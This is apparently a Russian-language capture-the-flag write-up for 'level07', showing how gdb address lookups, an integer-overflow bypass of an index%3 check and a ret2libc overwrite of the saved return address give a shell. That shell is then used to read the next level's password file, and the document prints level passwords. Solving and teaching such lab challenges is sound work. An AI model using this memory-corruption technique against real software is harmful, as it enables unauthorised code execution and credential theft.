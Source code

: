 ## HowTo

```bash
> su level07
GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8
```

### Инструменты:
- Ida Pro + hex rays
- gdb + peda

**NB:** Для работы с файлом стягиваем его на локальную машину

### Анализ и ход решения
1. Программа представляет собой аналог простой БД, поддерживающей команды `store`, `read`, `quit`
2. `Store` - сохраняет значение по заданному индексу
3. `Read` - читает значение по индексу
4. В ходе выполнения `store` есть проверка на делимость адреса на `3` - ограничивающая нас в адресации. `index % 3`

**Идея взлома**
Переписать адрес возврата `eip`, подложив туда вызов `system(/bin/sh)`. 

1. Найдем адрес `system`
- анализ функций info functions показывает, что в области видимости есть функция `system`.
для нее не используется динамическая линковка, так что адрес (если мы его найдем) будет постоянным
```bash
> info func system
Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```
Как видим, используется статическая `system`. Попробуем найти ее адрес
```bash
> b *main
> r
> p system 
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

Найдем также адрес /bin/sh, т.к. он нужен нам в качестве аргумента для system
> find &system, +100000000, "/bin/sh"
0xf7f897ec
> 
```
- нашли адреса `system = 0xf7e6aed0 = 4159090384`, `/bin/sh = 0xf7f897ec = 4160264172`

2. Найдем адрес `eip`
```bash
> b *main
> run
info frame
Stack level 0, frame at 0xffffc890:
 eip = 0x8048723 in main; saved eip = 0xf7de5fa1
 called by frame at 0xffffc900
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffc890
 Saved registers:
  eip at 0xffffc88c
```
адрес `eip = 0xf7de5fa1`. Теперь нам нужно найти смещение от буфера до `eip`, чтобы определить переполнение
2. Найдем смещение от буффера до `eip`
```bash
> disass main       ----> Анализирует как буффер передается в функцию
...
   0x080488e3 <+448>:	lea    eax,[esp+0x24]          -> адрес буффера == esp + 0x24
   0x080488e7 <+452>:	mov    DWORD PTR [esp],eax
   0x080488ea <+455>:	call   0x8048630 <store_number>
...

> b *main+452
> run
...
> info registers esp
esp            0xffffc6a0	0xffffc6a0
> info frame
Stack level 0, frame at 0xffffc890:
 eip = 0x80488e7 in main; saved eip = 0xf7de5fa1
 called by frame at 0xffffc900
 Arglist at 0xffffc888, args: 
 Locals at 0xffffc888, Previous frame's sp is 0xffffc890
 Saved registers:
  ebx at 0xffffc87c, ebp at 0xffffc888, esi at 0xffffc880, edi at 0xffffc884, eip at 0xffffc88c
```
- адрес eip = `0xffffc88c`
- адрес esp = `0xffffc6a0`
- `offset == eip - esp - 0x24 (lea    eax,[esp+0x24]) = 0xffffc88c - 0xffffc6a0 - 0x24 = 0x1c8 == 456`
- смещение от буффера до  `eip` = `456 байт` или `114 int` (`456 / 4`)

3. Мы должны были бы положить адрес `system` в индекс `114`, но помним про проверку `index % 3`
`114 % 3 = 0`
4. Попробуем переполнить инт.
`(UINT_MAX + 456) / 4 = 1073741938`

5. Нам также нужно найти смещение для аргумента `system`. 
`(456 (eip_offset) + 8 (next pointer size)) / 4 = 116`. Не делиться нацело на `3`, также что проверку пройдет

5. Пробуем подмену `eip`.
- по индексу `1073741938` кладем адрес `system 4159090384`
- по индексу `116` кладем адрес `/bin/sh 4160264172`

```bash
./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store 
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: 4160264172
 Failed to do 4160264172 command
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami 
level08
$ pwd
/home/users/level07
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

